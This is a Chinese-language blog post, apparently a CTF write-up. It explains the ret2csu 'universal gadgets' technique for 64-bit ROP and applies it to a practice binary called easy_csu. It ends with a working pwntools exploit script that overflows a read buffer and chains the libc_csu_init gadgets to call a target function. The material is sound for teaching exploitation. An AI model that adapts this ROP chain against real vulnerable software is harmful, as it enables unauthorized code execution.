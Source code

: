 ```yaml
---
title: ret2csu - 万能Gadgets
date: 2020-06-15 16:09:23
categories:
- Theories
- Assembler
tags:
- PWN
- ROP
---
```

## Introduction

&emsp;&emsp;2018年blackhat大会提出了ret2csu，即通过libc_csu_init中两个特殊的gadgets实现64位程序的万能传参。

<!-- more -->

&emsp;&emsp;libc_csu_init函数功能是对libc进行初始化操作，一般程序都会调用libc函数，所以这个函数基本上都存在，故而称为万能gadgets。

![](/img/Useful-Gadgets/Useful-Gadgets1.png)

&emsp;&emsp;通过汇编代码可以发现，利用这两个gadgets可以依次实现rbx、rbp、r12、rdx、rsi、edi寄存器的赋值。

&emsp;&emsp;在x86的程序中，函数的前6个参数的赋值是依次通过rdi、rsi、rdx、rcx、r8、r9寄存器实现。所以上面我们控制的寄存器中，r12、rdx、rsi和edi寄存器更加吸引我们的注意力，因为他们分别保存着将要调用的函数的指针的地址、第三个参数、第二个参数和第一个参数。

&emsp;&emsp;而rbx和rbp寄存器我们也不能忽视，他们的值必须分别被置为0和1。因为在gadget2中，最后一个指令`call [r12 + rbx*8]`，将rbx置0则指令将变成`call [r12]`，方便传参。此外需要注意的是，r12中设置的应该为要调用的函数的指针的地址，即got地址而不是plt地址。

&emsp;&emsp;因为jne指令与je指令正好相反，只有当零标志ZF=0时跳转，ZF=1时顺序执行下一条指令，即不相等时转移。前一条指令`cmp rbx，rbp`中rbx再执行完`add rbx，0`之后必然值为1。所以为了不跳转，必须将rbp的值也置为1，使得汇编指令能够顺序执行而不是跳转到1110行再次执行call指令，这样可能会造成错误。

## Example：easy_csu

### Step 1

&emsp;&emsp;程序运行截图：

![](/img/Useful-Gadgets/Useful-Gadgets2.png)

&emsp;&emsp;checksec：64位程序

![](/img/Useful-Gadgets/Useful-Gadgets3.png)

### Step 2

&emsp;&emsp;把程序丢到hopper中，发现main函数中read函数存在溢出漏洞：

![](/img/Useful-Gadgets/Useful-Gadgets4.png)

&emsp;&emsp;看一下vul函数，发现只要调用vul函数，且将vul函数的第3个参数设为3即可：

![](/img/Useful-Gadgets/Useful-Gadgets5.png)

&emsp;&emsp;由于这是64位的程序，所以通过寄存器传参，但是通过ROPgadget并没有发现可以用的gadgets：

![](/img/Useful-Gadgets/Useful-Gadgets6.png)

&emsp;&emsp;于是我们就想到万能gadgets：

![](/img/Useful-Gadgets/Useful-Gadgets7.png)

&emsp;&emsp;所以可以构造这样一个ROP链：首先跳转到loc_4011fe即gadget1给寄存器赋值，然后ret到gadget2将参数转移到需要的寄存器中去，但是gadget2运行后会再次执行一遍gadget1，这样会使得栈空间提升8*7总共56字节，所以我们还需要padding56个字节，然后才能覆盖ret到需要的地址上去。

&emsp;&emsp;在我们给r12赋值的时候，刚开始的想法是直接填上vul函数的地址。但是根据上面关于ret2csu的介绍，r12中应该置为vul函数指针的地址。所以我们需要找到一个指针，再劫持这个指针指向vul函数......这也太麻烦了，而且这样一来题目的初衷和重心就变了。

&emsp;&emsp;为了解决这个问题，我们选择一个简单的办法。用init_array_start函数的指针来跳过gadget2中的那条call指令。init_array_start函数是ELF程序的一个初始化函数，运行它不会对栈空间造成影响，可以说是用于跳过call指令的最佳选择。

### Step 3

&emsp;&emsp;于是最终的EXP就是这样的：

```Python
* from pwn import *
* 
* sh = process('./easy_csu')
* elf = ELF('easy_csu')
* 
* gadget1 = 0x401202
* gadget2 = 0x4011e8
* 
* init_addr = elf.symbols['__init_array_start']
* vul_addr = elf.symbols['vul']
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(gadget1) + p64(0) + p64(1) + p64(init_addr) + p64(0) + p64(0)+ p64(3)
* payload += p64(gadget2) + 'a' * 56
* payload += p64(vul_addr)
* 
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP运行结果图：

![](/img/Useful-Gadgets/Useful-Gadgets8.png)